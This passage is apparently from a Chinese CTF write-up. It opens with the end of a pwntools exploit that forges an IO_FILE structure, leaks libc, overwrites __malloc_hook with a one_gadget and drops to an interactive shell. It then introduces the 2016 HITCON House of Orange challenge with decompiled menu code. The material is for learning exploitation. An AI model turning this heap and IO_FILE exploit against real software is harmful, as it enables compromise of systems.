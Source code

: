 ```python
        fake_file._IO_buf_base = addr
        fake_file._fileno = 1
        fake_file._lock = buffer_addr + 0x100
        payload = 'A' * 0x10 + p64(buffer_addr + 0x20) + p64(0) + str(fake_file)[:-8]
        p.sendline(payload)
        p.sendline(chr(data & 0xff))
        addr += 1
        data >>= 8

vtable_addr = buffer_addr + 0xf8
libc_base = leak(vtable_addr) - libc.symbols['_IO_file_jumps']
info('libc_base = ' + hex(libc_base))
malloc_hook = libc_base + libc.symbols['__malloc_hook']
one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
one_gadget = libc_base + one_gadgets[1]
#gdb.attach(p)
write(malloc_hook, one_gadget)

p.sendline('%66666c')
p.recvuntil('\x7f')
p.interactive()
```

# 2016-HITCON-houseoforange

通过 sysmalloc 构造 Free Chunk 的过程不过多叙述，主要是记录 IO_FILE 的利用。程序保护全开，流程大概如下。有建 House、升级 House、查看 House 三个功能：

```cpp
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  signed int c; // eax

  sub_1218();
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      c = read_int();
      if ( c != 2 )
        break;
      see();
    }
    if ( c > 2 )
    {
      if ( c == 3 )
      {
        upgrade();
      }
      else
      {
        if ( c == 4 )
        {
          puts("give up");
          exit(0);
        }
LABEL_14:
        puts("Invalid choice");
      }
    }
    else
    {
```